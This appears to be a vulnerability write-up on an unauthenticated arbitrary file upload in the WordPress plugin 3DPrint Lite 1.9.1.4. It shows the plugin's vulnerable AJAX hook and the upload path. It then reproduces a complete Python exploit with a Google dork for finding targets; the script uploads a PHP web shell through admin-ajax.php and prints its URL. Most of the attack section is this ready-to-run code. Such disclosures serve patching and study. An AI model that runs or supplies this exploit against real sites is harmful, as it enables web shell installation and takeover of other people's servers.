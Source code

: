 # WordPress 3DPrint Lite 3dprint-lite-functions.php Any file upload vulnerability

## Vulnerability Description

There is a file upload vulnerability in the 3dprint-lite-functions.php file in WordPress 3DPrint Lite Version 1.9.1.4 version. The attacker can upload any file to obtain server permissions by constructing a request package.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">3DPrint Lite Version 1.9.1.4</span>

## Plugin Name

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">3DPrint Lite</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">https://downloads.wordpress.org/plugin/3dprint-lite.1.9.1.4.zip</span>

## Vulnerability reappears

First, let’s take a look at the plug-in registration interface

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1638590530183-dbba3790-04d8-4567-bf1e-2f49629a9911.png)

```php
if ( is_admin() ) {
	add_action( 'admin_enqueue_scripts', 'p3dlite_enqueue_scripts_backend' );
	add_action( 'wp_ajax_p3dlite_handle_upload', 'p3dlite_handle_upload' );
	add_action( 'wp_ajax_nopriv_p3dlite_handle_upload', 'p3dlite_handle_upload' );
	include 'includes/3dprint-lite-admin.php';
}
else {
	add_action( 'wp_enqueue_scripts', 'p3dlite_enqueue_scripts_frontend' );
	include 'includes/3dprint-lite-frontend.php';
}
```

Tracking p3dlite_handle_upload method `wp-content/plugins/3dprint-lite/includes/3dprint-lite-functions.php`

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1638590604840-080502a2-0606-483c-b620-88ced836df9f.png)

Looking down, you can see a standard file upload code

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1638590633929-99afa9bf-aff5-41b2-a6be-02f10da4a2d4.png)

Through debugging, you can find the upload path `/wp-content/uploads/p3d/`

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1638590688972-3b63dca0-8357-4456-8d6e-18bc21c476ac.png)

Unauthorized call to p3dlite_handle_upload to upload files

```php
# Exploit Title: Wordpress Plugin 3DPrint Lite 1.9.1.4 - Arbitrary File Upload
# Google Dork: inurl:/wp-content/plugins/3dprint-lite/
# Date: 22/09/2021
# Exploit Author: spacehen
# Vendor Homepage: https://wordpress.org/plugins/3dprint-lite/
# Version: <= 1.9.1.4
# Tested on: Ubuntu 20.04.1

import os.path
from os import path
import json
import requests;
import sys

def print_banner():
	print("3DPrint Lite <= 1.9.1.4 - Arbitrary File Upload")
	print("Author -> spacehen (www.github.com/spacehen)")

def print_usage():
	print("Usage: python3 exploit.py [target url] [php file]")
	print("Ex: python3 exploit.py https://example.com ./shell.php")

def vuln_check(uri):
	response = requests.get(uri)
	raw = response.text
	if ("jsonrpc" in raw):
		return True;
	else:
		return False;

def main():

	print_banner()
	if(len(sys.argv) != 3):
		print_usage();
		sys.exit(1);

	base = sys.argv[1]
	file_path = sys.argv[2]

	ajax_action = 'p3dlite_handle_upload'
	admin = '/wp-admin/admin-ajax.php';

	uri = base + admin + '?action=' + ajax_action ;
	check = vuln_check(uri);

	if(check == False):
		print("(*) Target not vulnerable!");
		sys.exit(1)

	if( path.isfile(file_path) == False):
		print("(*) Invalid file!")
		sys.exit(1)

	files = {'file' : open(file_path)}
	print("Uploading Shell...");
	response = requests.post(uri, files=files)
	file_name = path.basename(file_path)
	if(file_name in response.text):
		print("Shell Uploaded!")
		if(base[-1] != '/'):
			base += '/'
		print(base + "wp-content/uploads/p3d/" + file_name);
	else:
		print("Shell Upload Failed")
		sys.exit(1)

main();
            
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1638590820680-20cfb3cc-d320-4ba0-9d47-59d36996ed9d.png)